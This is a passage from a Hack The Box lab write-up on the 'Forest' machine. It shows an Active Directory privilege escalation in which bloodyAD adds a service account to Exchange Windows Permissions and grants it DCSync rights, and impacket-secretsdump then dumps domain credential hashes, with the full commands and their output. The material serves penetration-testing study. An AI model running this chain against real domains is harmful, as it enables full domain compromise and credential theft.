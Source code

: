 # Post-Exploitation

#### Privilege escalation

Analysing the bloodhound output more carefully we find that account operators has GenericAll permissions on the Exchange Windows Permisions (Group) which then has WriteDacl on -> HTB.LOCAL.

This is a pretty basic AD chain that we can exploit. I will do this in steps

`1.` Exploiting GenricAll permissions on Exchange Windows Permisions

'GenricAll permissions' is a fancy term that basically means that wen can do whatever we want with this AD object. The first things that comes to find is that I can simply add myself to this group. There are multiple ways to do this, but I will use bloodyAD since I like the tool very much and find it useful.

###### Hint
If you are unfamiliar with I highly recommend getting to know it well. It will help you a lot in attacking AD environments. 

Back to the box.

The syntax is pretty easy to understand, so I don't believe that it requires any explanation.

```bash
~/htb/boxes/OSCP-PREP/Forest ❯ bloodyAD --host FOREST.htb.local -d htb.local -u 'svc-alfresco' -p 's3rvice' add groupMember "Exchange Windows Permissions" svc-alfresco
[+] svc-alfresco added to Exchange Windows Permissions
```

Moving onto step 2 now.

`2.` Exploiting WriteDacl on HTB.LOCAL

Now we can abuse the permissions this group has to grant our user DcSync privileges. Once again I am using bloodyAD
```
~/htb/boxes/OSCP-PREP/Forest ❯ bloodyAD --host FOREST.htb.local -d htb.local -u 'svc-alfresco' -p 's3rvice' add dcsync svc-alfresco
[+] svc-alfresco is now able to DCSync
```

We can now abuse this ability to sync domain controllers by tricking the target into thinking we are another DC. This is a geniuine feature used in AD environments that we will abuse for funz. This allows us to get all the credentialz we need using the MS-DRSR protocol.

Now we can use secretsdump to get all the hashes!

```
~/htb/boxes/OSCP-PREP/Forest ❯ impacket-secretsdump 'htb.local'/'svc-alfresco':'s3rvice'@'FOREST.htb.local'                                                    

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::

[...snip...]
```
